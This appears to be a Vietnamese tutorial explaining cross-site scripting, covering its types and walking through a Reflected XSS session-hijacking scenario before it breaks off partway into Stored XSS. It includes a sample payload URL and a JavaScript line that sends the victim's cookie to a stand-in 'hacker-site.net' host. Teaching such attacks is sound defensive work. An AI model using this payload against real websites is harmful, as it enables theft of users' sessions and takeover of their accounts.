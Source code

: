 Chú ý rằng, tấn công XSS sẽ không thể xảy ra được nếu như người dùng không thực sự truy cập vào hệ thống web. Điều này có nghĩa là dữ liệu lưu ở Cơ sở dữ liệu phía Server vẫn an toàn mặc dù mã độc đã được chèn vào hệ thống. Mục tiêu mà XSS nhắm tới là thực thi mã độc ở phía trình duyệt, nhằm đánh cắp dữ liệu ở phía người dùng (ví dụ: cookies) để có thông tin chứng thực user khi truy cập trái phép vào hệ thống.
## Phân loại lỗ hổng XSS
XSS là loại tấn công thường sử dụng Javascript và HTML để chèn vào trang web. Cách tấn công này có thể được thực hiện theo nhiều cách khác nhau, phụ thuộc vào loại tấn công XSS, những mã độc có thể được phản chiếu trên trình duyệt của nạn nhân hoặc được lưu trữ trong cơ sở dữ liệu và được chạy mỗi khi người dùng gọi hình thức tấn công thích hợp. Có một số hình thức tấn công XSS có thể xảy ra như:
* Cross Site Scripting có thể xảy ra trên tập lệnh độc hại được thực hiện ở phía client.
* Trang web hoặc form giả mạo được hiển thị cho người dùng (nơi nạn nhân nhập thông tin đăng nhập hoặc nhấp vào liên kết độc hại).
* Trên các trang web có quảng cáo được hiển thị.
* Email độc hại được gửi đến nạn nhân. Tấn công xảy ra khi tin tặc tìm kiếm những lỗ hổng trên website và gửi nó làm đầu vào độc hại. Tập lệnh độc hại được tiêm vào mã lệnh và sau đó được gửi dưới dạng đầu ra cho người dùng cuối cùng.
 + Có 3 loại tấn công XSS chính như sau:
### 1. Reflected XSS
Có nhiều hướng để khai thác thông qua lỗi Reflected XSS, một trong những cách được biết đến nhiều nhất là chiếm phiên làm việc (session) của người dùng, từ đó có thể truy cập được dữ liệu và chiếm được quyền của họ trên website. Chi tiết được mô tả qua những bước sau:
<img width="876" height="535" alt="image" src="https://github.com/user-attachments/assets/456248ac-aebb-46ba-a388-80cee08dc8ee" />

1. Người dùng đăng nhập web và giả sử được gán session:
`Set-Cookie: sessId=5e2c648fa5ef8d653adeede595dcde6f638639e4e59d4`
2. Bằng cách nào đó, hacker gửi được cho người dùng URL:
`http://example.com/name=var+i=new+Image;+i.src=”http://hacker-site.net/”%2Bdocument.cookie;`
Giả sử `example.com` là website nạn nhân truy cập, `hacker-site.net` là trang của hacker tạo ra
3. Nạn nhân truy cập đến URL trên
4. Server phản hồi cho nạn nhân, kèm với dữ liệu có trong request (đoạn javascript của hacker)
5. Trình duyệt nạn nhân nhận phản hồi và thực thi đoạn javascript
6. Đoạn javascript mà hacker tạo ra thực tế như sau:
`var i=new Image; i.src=”http://hacker-site.net/”+document.cookie;`
Dòng lệnh trên bản chất thực hiện request đến site của hacker với tham số là cookie người dùng:
`GET /sessId=5e2c648fa5ef8d653adeede595dcde6f638639e4e59d4 HTTP/1.1`
`Host: hacker-site.net`
7. Từ phía site của mình, hacker sẽ bắt được nội dung request trên và coi như session của người dùng sẽ bị chiếm. Đến lúc này, hacker có thể giả mạo với tư cách nạn nhân và thực hiện mọi quyền trên website mà nạn nhân có.
### 2. Stored XSS:
Khác với Reflected tấn công trực tiếp vào một số nạn nhân mà hacker nhắm đến, Stored XSS hướng đến nhiều nạn nhân hơn. Lỗi này xảy ra khi ứng dụng web không kiểm tra kỹ các dữ liệu đầu vào trước khi lưu vào cơ sở dữ liệu (ở đây tôi dùng khái niệm này để chỉ database, file hay những khu vực khác nhằm lưu trữ dữ liệu của ứng dụng web). Ví dụ như các form góp ý, các comment … trên các trang web. Với kỹ thuật Stored XSS , hacker không khai thác trực tiếp mà phải thực hiện tối thiểu qua 2 bước.
Đầu tiên hacker sẽ thông qua các điểm đầu vào (form, input, textarea…) không được kiểm tra kỹ để chèn vào CSDL các đoạn mã nguy hiểm.
<img width="567" height="529" alt="image" src="https://github.com/user-attachments/assets/e3f4f062-a2b1-4954-b6c8-64be59b7139c" />
